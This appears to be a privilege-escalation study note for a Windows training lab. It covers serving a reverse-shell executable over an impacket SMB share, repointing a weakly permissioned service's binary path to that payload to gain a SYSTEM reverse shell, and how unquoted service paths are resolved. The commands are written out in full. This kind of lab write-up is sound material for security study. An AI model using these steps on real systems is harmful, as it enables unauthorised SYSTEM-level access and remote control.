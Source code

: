 ## Smb to share files

- Start the smbserver on localmachine with
  `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
- Copy you exploit file using `copy` command on windows command prompt
  `copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe`

---

## Insecure Service Permissions

- Use `accesschk.exe` (From sysinternals) to check the user accounts permission on **daclsvc** service:
  `accesschk.exe /accepteula -uwcqv user daclsvc`
  ![](2021-02-01_00-21.png)
- If we have read and write permission on `SERVICE_CHANGE_CONFIG` then we can escalate our privs, since it is running as SYSTEM privileges
  ![](2021-02-01_00-25.png)
- **Exploitation**: Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:
  `sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`
  ![](2021-02-01_00-27.png)
  - Now we can start our nc listener and get a rev shell with system privileges
    ![](2021-02-01_00-28.png)
  - And then restart the vulnerable service
    `net start daclsvc`

---

## Unquoted Service Path

- Query the "unquotedsvc" with
  `sc qc unquotedsvc`

  ![](2021-02-01_00-53.png)
  here we can write to "C:\Program Files\Unquoted Path Service" a file called common.exe

```
In order to run SomeExecutable.exe, the system will interpret this path in the following order from 1 to 5.
C:\Program.exe
C:\Program Files\A.exe
C:\Program Files\A Subfolder\B.exe
C:\Program Files\A Subfolder\B Subfolder\C.exe
C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

```
